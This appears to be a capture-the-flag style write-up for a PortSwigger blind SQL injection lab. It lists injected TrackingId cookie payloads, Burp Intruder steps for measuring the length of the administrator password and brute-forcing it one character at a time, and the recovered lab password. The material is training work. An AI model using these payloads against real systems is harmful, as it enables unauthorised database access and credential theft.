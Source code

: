 #Lab: Blind SQL injection with conditional responses

#https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

We have TrackingId=gegY6UA7J8CkVXWR; when you do a request with this tracking id you get welcome back message.
But when you change it you don't see get welcome back message we will use this.
```bash
TrackingId=gegY6UA7J8CkVXWR'and 1=1--;

# welcome back

TrackingId=gegY6UA7J8CkVXWR'and 1=0--;
#no welcome back
```
```bash
#checking users table 
TrackingId=gegY6UA7J8CkVXWR'and (SELECT 'x' from users LIMIT 1)= 'x'--;
# welcome back
```
```bash
TrackingId=gegY6UA7J8CkVXWR'and (SELECT username from users where username = 'administrator')= 'administrator'--;

# welcome back
```
```bash
# Determining password length
gegY6UA7J8CkVXWR'and (SELECT username from users where username = 'administrator' and LENGTH(password)>2)= 'administrator'--;

# welcome back now send it to sniper and mark the 2. After that go to payloads set payload to numbers choose sequential
# set 1 to 50 and step = 1 and start attack check the response lenght and welcome back message.
# We had welcome back message until 20 so password length is 20.
```
```bash
#Brute Force Password
TrackingId=gegY6UA7J8CkVXWR'and (SELECT substring(password,1,1) from users where username = 'administrator')= 'a'--;

# mark first 1 after password and then that mark a. attack type clusterbomb.
# payload 1 will be numbers sequential 1 to 20 step=1.
# payload 2 will be brute forcer min and max lenght both 1.
#after that click on lenght higher the lenght means we got welcome message.
```
```bash
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
o h 2 d 3 s 6 s c n  l  4  1  b  8  4  x  r  a  d

oh2d3s6scnl41b84xrad
```
